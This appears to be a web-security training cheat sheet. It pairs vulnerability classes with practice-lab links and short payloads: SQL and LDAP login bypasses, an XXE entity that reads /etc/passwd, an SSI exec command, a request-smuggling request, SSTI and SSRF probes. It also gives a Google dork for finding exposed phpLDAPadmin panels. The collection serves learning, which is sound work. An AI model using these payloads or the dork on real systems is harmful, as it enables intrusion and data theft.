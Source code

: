 # Cross Site Scripting (Reflected & Stored)
Lab : http://testphp.vulnweb.com/index.php

# HTTP Verb Tampering
Lab : http://challenge01.root-me.org/web-serveur/ch8/

# HTTP Parameter Pollution
Lab : https://bwapp.hakhub.net/hpp-1.php
Payload : &movie=2

# SQL Injection
Lab : https://juice-shop.herokuapp.com/#/login
Payload : admin' or '1'='1'--

# LDAP Injection

Google Dork - 
intitle:"phpLDAPadmin" inurl:cmd.php

Login Bypass - 
user=*
password=*
--> (&(user=*)(password=*))

# XML Injection
Lab : https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
Payload :
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
&xxe;

# XPATH Injection
Lab : https://bwapp.hakhub.net/xmli_1.php
Payload : ' or id='1

# SSI Injection 
Payload : <!--#exec cmd="OS_COMMAND" -->

# Code Injection
Lab : https://bwapp.hakhub.net/phpi.php

# Local File Inclusion/ Remote File Inclusion
Lab: https://bwapp.hakhub.net/rlfi.php

# Command Injection
Lab : https://bwapp.hakhub.net/commandi.php

# HTTP Splitting Smuggling
Lab : https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses
Payload : 
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X

# Host Header Injection
Lab : https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-basic-password-reset-poisoning

# Server-side Template Injection
Lab : https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic
Payload : <%= 7*7 %> 

# Server-Side Request Forgery
Lab : https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost
Payload : http://localhost/admin
